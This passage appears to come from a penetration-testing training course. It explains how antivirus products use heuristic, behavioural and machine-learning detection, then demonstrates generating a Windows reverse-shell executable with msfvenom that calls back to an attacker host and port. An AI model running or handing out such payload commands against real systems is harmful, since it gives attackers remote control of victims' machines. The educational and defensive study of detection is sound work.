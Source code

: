 [_Heuristic-Based Detection_](https://en.wikipedia.org/wiki/Heuristic_analysis) is a detection method that relies on various rules and algorithms to determine if an action is considered malicious. This is often achieved by stepping through the instruction set of a binary file or by attempting to disassemble the machine code and ultimately decompile and analyze the source code to obtain a more comprehensive map of the program. The idea is to search for various patterns and program calls (as opposed to simple byte sequences) that are considered malicious.

Alternatively, [_Behavior-Based Detection_](https://pdfs.semanticscholar.org/08ec/24106e9218c3a65bc3e16dd88dea2693e933.pdf) dynamically analyzes the behavior of a binary file. This is often achieved by executing the file in question in an emulated environment, such as a small virtual machine, or sandbox,and searching for behaviors or actions that are considered malicious.

Lastly, _Machine-Learning Detection_ aims to up the game by introducing ML algorithms to detect unknown threats by collecting and [_analyzing additional metadata_](https://docs.microsoft.com/en-us/microsoft-365/security/defender-endpoint/cloud-protection-microsoft-antivirus-sample-submission?view=o365-worldwide). For instance, Microsoft Windows Defender has two ML components: the client ML engine, which is responsible for creating ML models and heuristics, and the cloud ML engine, which is capable of analyzing the submitted sample against a metadata-based model comprised of all the [_submitted samples_](https://i.blackhat.com/us-18/Thu-August-9/us-18-Parikh-Protecting-the-Protector-Hardening-Machine-Learning-Defenses-Against-Adversarial-Attacks.pdf). Whenever the client ML engine is unable to determine whether a program is benign or not, it will query the cloud ML counterpart for a final response.

Since these techniques do not require malware signatures, they can be used to identify unknown malware, or variations of known malware, more effectively. Given that antivirus manufacturers use different implementations when it comes to heuristics, behavior, and machine learning detection, each antivirus product will differ in terms of what code is considered malicious.

It's worth noting that many antivirus developers use a combination of these detection methods to achieve higher detection rates.

To demonstrate the effectiveness of various antivirus products, we will start by scanning a popular _Metasploit_ payload. Using _msfvenom_, we will generate a standard [_Portable Executable_](https://en.wikipedia.org/wiki/Portable_Executable) (PE) file containing our payload. In this case we will use a simple TCP reverse shell.

The PE file format is used on Windows operating systems for executable and object files. The PE format represents a Windows data structure that details the information necessary for the [_Windows Loader_](https://en.wikipedia.org/wiki/Loader_(computing)) to manage the wrapped executable code including required dynamic libraries, API import and export tables, etc.

Before generating any Metasploit payloads, it is a best practice to make sure we are running the latest version of Kali. Metasploit gets updated frequently and its AV signatures could change as well. AV vendors must rebuild those signatures and push them as updates. This constant and intrinsic delay in pushing new up-to-date signatures could give attackers an extra edge during a penetration test, since a fresh Metasploit version might run undetected due to stale AV signatures.

Let's generate the test binary payload by running the **msfvenom** command followed by the **\-p** argument specifying the payload. We'll then pass the reverse shell local host (**LHOST**) and local port (**LPORT**) arguments along with the **EXE** file format and redirect the output to a file named **binary.exe**.

```
kali@kali:~$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.1 LPORT=443 -f exe > binary.exe
...
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
```

> Listing 5 - Generating a malicious PE containing a meterpreter shell.

